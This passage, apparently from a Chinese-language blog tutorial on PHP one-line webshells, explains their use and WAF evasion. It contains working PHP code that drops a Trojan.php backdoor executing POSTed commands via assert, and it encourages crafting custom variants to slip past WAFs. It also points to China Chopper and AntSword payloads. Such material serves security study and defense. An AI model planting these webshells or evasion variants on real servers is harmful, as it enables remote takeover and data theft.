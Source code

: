 ``` php
<?php
$test='<?php $a=$_POST["cmd"];assert($a); ?>';
file_put_contents("Trojan.php", $test);
?>
```

上面这个 webshell 利用函数生成 `Trojan.php` 木马文件。此木马文件的内容是
`file_put_contents` 函数：功能为：生成一个文件。第一个参数是文件名，第二个参数是文件的内容。

传上去此webshell：

![title](https://leanote.com/api/file/getImage?fileId=5da9a37dab64416e4700324f)

会生成一个 Trojan.php webshell。对其可以执行命令：

![title](https://leanote.com/api/file/getImage?fileId=5da9a3f4ab64416e47003251)

# bypass WAF

> WAF 通常以关键字判断是否为一句话木马，但是一句话木马的变形有很多种，WAF 根本不可能全部拦截。想要绕过 WAF，需要掌握各种 PHP 小技巧，掌握的技巧多了，把技巧结合起来，设计出属于自己的一句话木马。

一个 WAF 实例：
[PHP网站扫描一句话后门WebShell脚本源码](https://blog.csdn.net/qq_29647709/article/details/81474779)


此部分单独成文。

# 一句话木马 payload 分析

在这篇文章里面，主要示范了一句话木马的命令执行功能，其实一句话木马配合菜刀等工具完全可以等同于大马。只是使用的 payload 是上传功能、下载等函数。

如果要了解更多 payload，第一种方法是使用菜刀的时候抓包。抓包方法可以参考这篇文章：[新版中国菜刀（20141213）一句话不支持php assert分析](https://www.freebuf.com/articles/web/56616.html)。

另一种是分析 AntSword 的源码，因为 AntSword 是开源的。



--------------

参考链接：

[1] [新版中国菜刀（20141213）一句话不支持php assert分析](https://www.freebuf.com/articles/web/56616.html)，FREEBUF，JoyChou，2015年1月20日
[2] [PHP RFC：PHP 7.2的不推荐使用](https://wiki.php.net/rfc/deprecations_php_7_2)，PHP 官方文档，Nikita Popov，2015年12月28日
[3] [PHP一句话木马之小马](https://www.jianshu.com/p/90473b8e6667)，简书社区，Waldo_cuit，2018年5月13日
[4] [一句话木马踩坑记](https://xz.aliyun.com/t/6511)，先知社区，fz41，2019年10月15日
[5] [创造tips的秘籍——PHP回调后门](https://www.leavesongs.com/PENETRATION/php-callback-backdoor.html#)，PHITHON 的博客，PHITHON，2015年6月 
